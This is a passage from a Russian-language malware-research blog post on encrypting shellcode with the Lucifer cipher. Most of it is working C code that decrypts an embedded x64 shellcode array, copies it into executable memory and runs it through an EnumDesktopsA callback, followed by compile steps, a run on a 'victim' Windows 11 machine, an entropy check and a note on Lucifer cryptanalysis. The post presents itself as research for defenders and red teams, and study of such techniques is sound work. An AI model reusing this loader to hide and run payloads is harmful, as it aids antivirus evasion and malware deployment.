    }
  }

  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}

// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }
}

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }
}

int main() {
  unsigned char key[16] = "meowmeowbowwoow"; // example 128-bit key
  unsigned char my_payload[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (block_size - my_payload_len % block_size) % 
  block_size;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs (0x90)
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // encrypt the payload
  lucifer_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // decrypt the payload
  lucifer_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как обычно, я использовал здесь полезную нагрузку `meow-meow`:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

Также этот код корректно поддерживает схему заполнения и длину полезной нагрузки.    

### демонстрация 2

Давайте посмотрим, как это работает на практике. Скомпилируем его (на моей `linux` машине):

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем просто запустите его на машине жертвы (`windows 11 x64` в моем случае):

```powershell
.\hack2.exe
```

{width="80%"}      

{width="80%"}      

Как видите, все работает идеально! =^..^=    

Вычисление энтропии по Шеннону:

```bash
python3 entropy.py -f hack2.exe
```

{width="80%"}      

Наш полезный код находится в `.text` секции.    

Как вы знаете, [многие](https://cocomelonc.github.io/malware/2023/03/09/malware-av-evasion-13.html) из алгоритмов шифрования, которые я [изучал](https://cocomelonc.github.io/malware/2023/08/28/malware-cryptography-20.html) в своем [исследовании](https://cocomelonc.github.io/malware/2023/11/23/malware-cryptography-22.html) и в этом [блоге](https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html), используют сети Фейстеля.      

### криптоанализ

Бихам и Шамир (*E. Biham and A. Shamir, "Differential Cryptanalysis of Snefru, Khafre, REDOC–II, LOKI, and Lucifer," Advances in Cryptology-CRYPTO ’91 Proceedings, 1992, pp. 156–171* и *E. Biham and A. Shamir, Differential Cryptanalysis of the Data Encryption Standard, Springer–Verlag, 1993*) продемонстрировали, что начальная версия `Lucifer`, использующая `32`-битные блоки и `8` раундов, уязвима для дифференциального криптоанализа, требующего 40 выбранных открытых текстов и \( 2^{29} \) шагов; аналогично, такая же атака может скомпрометировать Lucifer с `128`-bit блоками и `8` раундами, требуя `60` выбранных открытых текстов и \( 2^{53} \) шагов. Дифференциальная криптоаналитическая атака успешно скомпрометировала `18`-раундный, `128`-битный Lucifer, используя `24` выбранных открытых текста за `221` шаг.

Надеюсь, этот пост окажется полезным для исследователей вредоносного ПО, программистов на C/C++, повысит осведомленность синих команд о данной интересной технике шифрования и пополнит арсенал красных команд.

[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-10-20-malware-cryptography-33)    
[E. Biham and A. Shamir, "Differential Cryptanalysis of Snefru, Khafre, REDOC–II, LOKI, and Lucifer," Advances in Cryptology-CRYPTO ’91 Proceedings, 1992, pp. 156–171](https://link.springer.com/chapter/10.1007/3-540-46766-1_11)     
